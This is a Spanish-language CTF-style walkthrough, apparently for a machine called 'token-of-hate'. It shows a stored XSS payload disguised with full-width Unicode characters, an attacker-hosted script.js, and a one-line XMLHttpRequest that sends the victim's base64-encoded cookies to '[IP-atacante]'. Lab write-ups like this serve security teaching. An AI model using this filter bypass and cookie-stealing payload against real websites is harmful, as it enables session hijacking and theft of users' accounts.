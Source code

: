 ```bash
$ ./tranformar.sh '<script src="http://192.168.1.181/script.js"></script>'
＜script src=“http://192.168.1.181/script.js“＞＜/script＞
```

![alt text](../../../assets/images/token-of-hate/image-6.png)

Por otro lado, creamos un servicio web con Python en el puerto 80 y nos ponemos a la escucha. En poco tiempo recibimos la solicitud:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.117 - - [21/Mar/2025 23:41:21] code 404, message File not found
192.168.1.117 - - [21/Mar/2025 23:41:21] "GET /script.js HTTP/1.1" 404 -
```

### Secuestro de cookies

Puesto que el XSS almacenado realiza peticiones a nuestro servicio HTTP en busca del archivo `script.js`, solo debemos modificar ese archivo para ejecutar JavaScript en el navegador de la víctima.

Ejecutamos lo siguiente para crear el fichero `script.js` en la misma carpeta que comparte nuestro servicio web:

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://[IP-atacante]?cookie="+btoa(document.cookie));x.send();' > script.js
```
